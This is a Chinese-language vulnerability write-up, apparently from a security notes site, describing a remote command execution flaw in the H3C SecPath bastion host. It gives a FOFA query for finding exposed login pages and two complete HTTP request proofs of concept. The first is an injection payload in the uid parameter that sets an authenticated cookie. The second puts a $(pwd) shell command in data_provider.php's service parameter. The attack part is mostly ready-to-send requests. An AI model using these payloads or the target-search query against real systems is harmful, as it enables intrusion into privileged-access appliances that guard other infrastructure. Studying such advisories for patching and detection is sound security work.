# H3C SecPath堡垒机 data_provider.php 远程命令执行漏洞

# 一、漏洞简介
H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令。

# 二、影响版本
+ H3C SecParh堡垒机

# 三、资产测绘
+ fofaapp="H3C-SecPath-运维审计系统" && body="2018"
+ 登录页面

![1692631905675-9287b478-0c9a-4758-9f18-3849248ffff0.png](./img/4J1iVrH3VLVHqVI0/1692631905675-9287b478-0c9a-4758-9f18-3849248ffff0-489477.png)

# 四、漏洞复现
1. 通过POC设置cookie

```plain
GET /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin HTTP/1.1
Host: xx.xx.xx.xx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=grlcbpjqpu59r6aanqjsn2gao0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
```

![1692666828015-6ad374fa-5e3e-4c1e-8de3-c5a44fc0b990.png](./img/4J1iVrH3VLVHqVI0/1692666828015-6ad374fa-5e3e-4c1e-8de3-c5a44fc0b990-478316.png)

2. 通过设置的cookie执行命令

```plain
GET /audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(pwd)&identity_cond=&query_type=all&format=json&browse=true HTTP/1.1
Host: xx.xx.xx.xx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=grlcbpjqpu59r6aanqjsn2gao0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
```

![1692666807243-fc8aac1a-67f8-44d5-b0d9-80034077e89d.png](./img/4J1iVrH3VLVHqVI0/1692666807243-fc8aac1a-67f8-44d5-b0d9-80034077e89d-819281.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/znczuitp8ey961eg>